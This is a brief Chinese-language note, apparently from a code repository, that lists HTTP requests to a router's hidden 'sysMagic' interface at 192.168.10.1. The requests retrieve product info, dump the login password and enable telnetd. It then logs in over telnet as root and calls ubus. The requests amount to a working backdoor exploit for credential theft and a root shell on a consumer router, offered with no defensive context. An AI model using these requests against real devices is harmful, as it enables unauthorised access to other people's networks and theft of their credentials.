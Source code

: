 版本信息
http://192.168.10.1/sysMagic=535A5943?get_ProductInfo

获取登陆密码
https://192.168.10.1/sysMagic=535A5943?get_LoginPassword

打开telnet
http://192.168.10.1/sysMagic=535A5943?enable_telnetd=1

```
cmd进入telnet，输入telnet账户：root，
```






```


```
ubus call ahsapd.basic getBasicInfo
```
